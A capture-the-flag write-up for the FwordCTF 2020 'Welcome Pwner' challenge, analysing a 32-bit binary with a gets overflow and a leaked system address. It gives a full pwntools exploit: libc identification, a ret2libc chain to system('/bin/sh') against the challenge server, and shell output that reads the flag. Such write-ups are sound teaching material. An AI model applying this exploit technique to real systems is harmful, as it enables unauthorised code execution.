 # FwordCTF 2020

## Welcome Pwner

> 374
> 
> something to warm you up.
>
> `nc 54.210.217.206 1240`
>
> Author : haflout
>
> [`Molotov`](molotov)

Tags: _pwn_ _x86_ _remote-shell_ _bof_ _rop_


## Summary

Beginner BOF with `system` leaked, however user must find libc version themselves.


## Analysis

### Checksec

```
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

Most mitigations in place, however no stack canary; BOF -> ROP.

    
### Decompile with Ghidra

```c
undefined4 vuln(void)
{
  char local_20 [24];
  
  printf("%x\n",system);
  puts("Input : ");
  gets(local_20);
  return 0;
}
```

Not a lot here; `system` address leaked with `gets` vulnerability.  `local_20` is `0x20` bytes from the return address on the stack.  Basic BOF.

Without knowing the version of libc we cannot pass the location of `/bin/sh` to `system`;  identifying that however is simple with [libc-database](https://github.com/niklasb/libc-database):

```
# nc 54.210.217.206 1240
f7de68b0
Input :
```

Take the last 3 nibbles and pass to `./find`:

```
# ./find system 8b0 | grep _i386
archive-glibc (id libc6_2.30-0ubuntu2.1_i386)
ubuntu-eoan-i386-libc6 (id libc6_2.30-0ubuntu2.2_i386)
http://ftp.osuosl.org/pub/ubuntu/pool/main/g/glibc/libc6_2.30-0ubuntu2_i386.deb (id libc6_2.30-0ubuntu2_i386)
```

Multiple hits.  I went with `libc6_2.30-0ubuntu2_i386` and it worked out just fine.  If it had failed, then there was only two other options to try.


## Exploit

This code assumes that `libc-database` is located in the same directory (I just sym linked it) as `exploit.py`.

From within the `libc-database` type:

```
# ./download libc6_2.30-0ubuntu2_i386
```

This will download libc, ld, et al.

Exploit Setup:

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./molotov')
context.log_level = 'INFO'
context.log_file = 'log.log'

'''
# local libc
libc = binary.libc
p = process(binary.path)
'''
# task libc
libid = 'libc6_2.30-0ubuntu2_i386'
libpath = os.getcwd() + '/libc-database/libs/' + libid + '/'
ld = ELF(libpath + 'ld-2.30.so')
libc = ELF(libpath + 'libc-2.30.so')
#p = process([ld.path, binary.path], env={'LD_LIBRARY_PATH': libpath})
p = remote('54.210.217.206', 1240)
#'''
```

The first few lines should not require much of an explanation, except perhaps the `binary = context.binary = ELF('./molotov')` statement.  The `context.binary` there in the middle will set the context (arch, os, etc...) so that `rop`, `asm`, `constants`, etc... statements produce the correct results.

The next section (selected by placing `#` at the first or last `'''`) determines if you want to use your local libc or the challenge libc.  For most easy challenges I dev/test with the local libc and then just test with the task libc.  However for some, especially when pulling addresses from the stack, I've found inconsistencies between my local libc is vs. the task libc.  Often time is wasted having to refactor or completely resolve for the task libc.  The second block handles launching a challenge binary with the intended libs.  And `gdb` works just fine with this as well.

Actual Exploit:

```python
_ = p.recvline()
system = int(_,16)
log.info('system: ' + hex(system))
libc.address = system - libc.sym.system
log.info('baselibc: ' + hex(libc.address))

payload  = 0x20 * b'A'
payload += p32(libc.sym.system)
payload += 4 * b'B'
payload += p32(libc.search(b'/bin/sh').__next__())

p.sendlineafter('Input : \n',payload)
p.interactive()
```

With the correct libc in hand, just capture the system address, compute the base of libc, then setup your ROP chain after padding with `0x20` bytes.

Output:

```bash
# ./exploit.py
[*] '/pwd/datajerk/fwordctf2020/welcome_pwner/molotov'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] '/pwd/datajerk/fwordctf2020/welcome_pwner/libc-database/libs/libc6_2.30-0ubuntu2_i386/ld-2.30.so'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] '/pwd/datajerk/fwordctf2020/welcome_pwner/libc-database/libs/libc6_2.30-0ubuntu2_i386/libc-2.30.so'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to 54.210.217.206 on port 1240: Done
[*] system: 0xf7dac8b0
[*] baselibc: 0xf7d67000
[*] Switching to interactive mode
$ id
uid=1000(fword) gid=1000(fword) groups=1000(fword)
$ ls -l
total 32
-rw-r--r-- 1 root root    24 Aug 29 14:25 flag.txt
-rwxr-xr-x 1 root root  7492 Aug 29 14:25 molotov
-rwxr-xr-x 1 root root 18744 Aug 29 14:25 ynetd
$ cat flag.txt
FwordCTF{good_j0b_pwn3r}
```
